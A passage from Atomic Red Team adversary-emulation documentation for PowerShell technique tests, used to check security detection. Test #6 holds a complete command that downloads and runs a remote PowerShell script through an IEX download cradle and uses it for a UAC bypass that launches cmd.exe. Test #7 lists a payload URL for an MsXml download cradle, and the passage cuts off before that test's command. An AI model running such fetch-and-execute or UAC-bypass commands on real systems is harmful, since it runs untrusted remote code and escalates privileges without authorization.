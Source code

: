 




<br/>
<br/>

## Atomic Test #6 - Invoke-AppPathBypass
Note: Windows 10 only. Upon execution windows backup and restore window will be opened.

Bypass is based on: https://enigma0x3.net/2017/03/14/bypassing-uac-using-app-paths/

**Supported Platforms:** Windows


**auto_generated_guid:** 06a220b6-7e29-4bd8-9d07-5b4d86742372






#### Attack Commands: Run with `command_prompt`! 


```cmd
Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/a0dfca7056ef20295b156b8207480dc2465f94c3/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass -Payload 'C:\Windows\System32\cmd.exe'"
```






<br/>
<br/>

## Atomic Test #7 - Powershell MsXml COM object - with prompt
Powershell MsXml COM object. Not proxy aware, removing cache although does not appear to write to those locations. Upon execution, "Download Cradle test success!" will be displayed.

Provided by https://github.com/mgreen27/mgreen27.github.io

**Supported Platforms:** Windows


**auto_generated_guid:** 388a7340-dbc1-4c9d-8e59-b75ad8c6d5da





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | url of payload to execute | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.ps1|


#### Attack Commands: Run with `command_prompt`! 
